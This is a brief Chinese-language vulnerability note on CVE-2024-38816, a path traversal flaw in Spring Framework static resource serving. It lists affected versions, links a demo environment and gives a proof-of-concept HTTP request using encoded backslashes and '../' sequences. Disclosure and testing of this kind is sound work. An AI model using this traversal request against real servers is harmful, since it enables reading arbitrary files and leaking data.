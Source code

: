 # Spring-Framework路径遍历漏洞(CVE-2024-38816)

Spring Framework受影响版本中，使用WebMvc.fn 或 WebFlux.fn（在Spring Web MVC或Spring WebFlux框架中）提供静态资源的应用程序容易受到路径遍历攻击，当Web 应用程序使用RouterFunctions提供静态资源并且应用程序使用FileSystemResource或类似的配置来从文件系统提供静态文件时，威胁者可构造恶意HTTP请求访问目标文件系统上Spring 应用程序进程有权访问的任意文件，从而导致数据泄露。

## 影响范围

Spring Framework 5.3.0 - 5.3.39

Spring Framework 6.0.0 - 6.0.23

Spring Framework 6.1.0 - 6.1.12

## 漏洞环境

https://github.com/weliveby/cve-2024-38816-demo

## poc

```javascript
GET /static/%5c/%5c/../../v.txt HTTP/1.1
Host: 127.0.0.1:8087
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![image-20240929095330475](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409290953532.png)

![image-20240929095436847](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409290954898.png)